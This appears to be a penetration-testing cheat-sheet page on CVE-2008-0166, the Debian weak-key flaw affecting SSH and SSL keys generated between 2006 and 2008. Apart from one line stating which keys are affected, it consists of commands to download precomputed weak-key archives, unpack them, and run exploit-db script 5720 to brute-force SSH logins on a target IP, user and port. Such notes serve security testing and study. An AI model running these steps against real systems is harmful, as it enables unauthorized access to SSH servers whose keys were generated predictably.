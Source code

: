 # CVE-2008-0166

#### CVE-2008-0166 <a href="#cve-2008-0166" id="cve-2008-0166"></a>

All SSL and SSH keys generated on Debian-based systems (Ubuntu, Kubuntu, etc) between September 2006 and May 13th, 2008 may be affected.

{% embed url="https://www.exploit-db.com/exploits/5720" %}

```
wget https://github.com/g0tmi1k/debian-ssh/raw/master/common_keys/debian_ssh_rsa_2048_x86.tar.bz2 https://github.com/g0tmi1k/debian-ssh/raw/master/common_keys/debian_ssh_dsa_1024_x86.tar.bz2

bunzip2 debian_ssh_rsa_2048_x86.tar.bz2 debian_ssh_dsa_1024_x86.tar.bz2
tar -xvf debian_ssh_rsa_2048_x86.tar
tar -xvf debian_ssh_dsa_1024_x86.tar

python 5720 rsa/2048 <IP> <USER> <PORT> <THREADS>
python 5720 dsa/1024 <IP> <USER> <PORT> <THREADS>
```
